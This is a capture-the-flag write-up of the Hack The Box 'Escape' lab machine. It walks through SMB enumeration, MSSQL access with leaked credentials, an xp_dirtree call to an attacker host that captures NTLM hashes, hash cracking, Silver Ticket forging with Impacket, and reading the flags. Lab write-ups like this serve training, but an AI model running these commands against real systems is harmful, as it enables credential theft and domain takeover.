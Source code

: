 # [Escape](https://app.hackthebox.com/machines/escape/)

```bash
nmap -p- --min-rate 10000 10.10.11.202 -Pn
```

![Alt text](img/image.png)

After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389 10.10.11.202 -Pn 
```

![Alt text](img/image-2.png)


From nmap scan result, I need to add this ip address into '**/etc/hosts**' file

Let's start enumeration of SMB shares via `crackmapexec` tool.

```bash
crackmapexec smb 10.10.11.202 -u guest -p '' --shares
```

![Alt text](img/image-1.png)


Let's connect `Public` share via `smbclient` tool.
```bash
smbclient //10.10.11.202/Public -N
```

![Alt text](img/image-3.png)


I read this PDF file and find sensitive information which is default credentials.

![Alt text](img/image-4.png)

PublicUser: GuestUserCantWrite1

Let's connect to MSSQL via `mssqlclient.py` script of `Impacket` module.
```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py sequel.htb/PublicUser:GuestUserCantWrite1@sequel.htb
```


I cannot execute system commands, to do this, I need to enable via `enable_xp_cmdshell`, but it doesn't work.

![Alt text](img/image-5.png)


But I can do `SMB Relay` attack by executing `xp_dirtree` to attacker host, then I can read NTLM via `responder` tool.

1.First, we need to execute below command to start LISTENING to catch NTLM hashes.
```bash
responder -I tun0
```

![Alt text](img/image-6.png)

2.Then execute below command to send `dir` request to attacker's machine.
```bash
EXEC xp_dirtree '\\10.10.14.2\share', 1, 1
```

![Alt text](img/image-7.png)


Hola, I grabbed user's NTLM hash.

![Alt text](img/image-8.png)


Let's crack this via `hashcat` tool.
```bash
hashcat -m 5600 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![Alt text](img/image-9.png)


That's credentials of `sql_svc` user.

sql_svc:REGGIE1234ronnie


Let's connect via `evil-winrm` tool.

```bash
evil-winrm -i 10.10.11.202 -u sql_svc -p 'REGGIE1234ronnie'
```

![Alt text](img/image-10.png)


While I am doing enumeration for SQLServer's LOGS for directory called 'C:\SQLSERVER\Logs', I find a file called 'ERRORLOG.BAK'.

![Alt text](img/image-11.png)

I found clear-text credentials.

ryan.cooper: NuclearMosquito3

Let's login into machine via `evil-winrm`.

user.txt

![Alt text](img/image-12.png)


For privilege escalation, I try to do `Silver Attack`. I will use password of `sql_svc` user.

To create a Silver Ticket, an attacker needs:
1.The NTLM hash of the password for the service account
2.The SID of the domain The service principle name (SPN) associated with the account.


Let's create NTLM hash of password 'REGGIE1234ronnie'.

```bash
iconv -f ASCII -t UTF-16LE <(printf "REGGIE1234ronnie") | openssl dgst -md4
```

![Alt text](img/image-13.png)


NTLM HASH=>1443ec19da4dac4ffc953bca1b57b4cf

Let's get Domain's SID via `Get-ADDomain` command of `powershell`.

```bash
Get-ADDomain | fl DomainSID
```

![Alt text](img/image-14.png)


DomainSID=>S-1-5-21-4078382237-1492182817-2568127209


Let's crack `Silver Ticket` via `ticketer.py` script of `Impacket` module.

```bash
python3 /usr/share/doc/python3-impacket/examples/ticketer.py -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -dc-ip dc.sequel.htb -spn MSSQLSvc/dc.sequel.htb:1433 administrator
```

![Alt text](img/image-15.png)

Let's add this ticket `administrator.ccache` into `klist` sessions.

```bash
KRB5CCNAME=administrator.ccache klist
```


Then login into MSSQL via this ticket.

```bash
KRB5CCNAME=administrator.ccache python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -k -no-pass dc.sequel.htb
```


**MOST IMPORTANT THING!** There is a problem called 'Clock SKEW', that's why we need to setup Time via `ntpdate` command for our target.

```bash
ntpdate dc.sequel.htb
```

![Alt text](img/image-16.png)


I am administrator.

![Alt text](img/image-17.png)


As I administrator from this [blog](https://www.mssqltips.com/sqlservertip/1643/using-openrowset-to-read-large-files-into-sql-server/), I can read all flags together, but I read alreay `user.txt`, it's time to read `root.txt`.


**Reminder!** To get administrative shell, I need to enable cmdshell via `enable_xp_cmdshell`, then execute whatever commands I want via this syntax `xp_cmdshell {command}`

```bash
SELECT BulkColumn FROM OPENROWSET(BULK 'C:\users\administrator\desktop\root.txt', SINGLE_CLOB) MyFile
```

root.txt

![Alt text](img/image-18.png)